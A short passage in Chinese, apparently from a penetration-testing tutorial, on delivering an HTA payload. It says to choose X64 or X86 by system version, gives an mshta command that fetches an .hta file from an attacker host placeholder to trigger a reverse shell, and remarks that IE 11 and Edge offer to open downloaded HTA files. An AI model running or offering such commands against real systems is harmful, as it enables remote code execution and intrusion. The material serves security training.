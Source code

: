 Payload 和 target 设置类型设置为 X64 还是 X86，实际情况要根据系统版本来看。

执行反弹。

```plaintext
mshta http://<Host>:8080/say00S5.hta
```

除了使用 mshta 运行外还可以通过浏览器运行。在 IE 11 和新老版本 Edge 浏览器下载 hta 应用后存在自动打开按钮（Chrome 和 Firefox 则是直接下载）。

![Internet Explorer 11 下载 HTA.png](assets/1698895429-76d4a9c5a1450d30ff4c65b3869cc33a.png)  
![Edge（改版前）下载 HTA.png](assets/1698895429-bc180bd2dc9e4b0dfb27a93cda10a62a.png)  